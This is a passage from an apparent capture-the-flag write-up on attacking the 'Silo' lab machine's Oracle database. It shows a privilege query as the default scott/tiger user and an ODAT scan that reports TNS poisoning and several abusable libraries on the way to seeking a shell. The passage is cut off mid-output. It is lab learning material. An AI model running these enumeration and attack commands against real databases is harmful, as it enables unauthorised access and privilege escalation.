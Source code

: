 CORE 11.2.0.2.0 Production
TNS for 64-bit Windows: Version 11.2.0.2.0 - Production
NLSRTL Version 11.2.0.2.0 - Production
{% endhighlight %}

For starters, we can query for user privileges and roles.  

{% highlight bash %}
SQL> SELECT * FROM user_role_privs;             

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT			       CONNECT			      NO  YES NO
SCOTT			       RESOURCE 		      NO  YES NO
{% endhighlight %}

As you can see, scott is a low-privilege user on the system. In order for us to gain shell access, we might need to escalate our privilege to DBA first and perform some known Oracle attacks. In order to achieve this easily, we can use a tool called **ODAT (Oracle Database Attack Tool)**. It is an open-source tool used to automate attacks on an Oracle DB.

Before we can use ODAT, we need to install it first in Kali. You can refer to this installation guide in order to install it successfully.

# Using ODAT - (Oracle Database Attack Tool)  
Initially, we will run all the ODAT modules on our victim server.   

{% highlight bash %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # python odat.py all -s 10.10.10.82 -d XE -U scott -P tiger

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Testing all modules on the XE SID with the scott/tiger account
[2.1] UTL_HTTP library ?
[-] KO
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
[-] KO
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
[2.6] DBMSSCHEDULER library ?
[-] KO
[2.7] CTXSYS library ?
[-] KO
[2.8] Hashed Oracle passwords ?
[+] OK
[2.9] Hashed Oracle passwords from history?
[-] KO
[2.10] DBMS_XSLPROCESSOR library ?
[+] OK
[2.11] External table to read files ?
[-] KO
[2.12] External table to execute system commands ?
[-] KO
[2.13] Oradbg ?
[-] KO
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
[-] KO
[2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?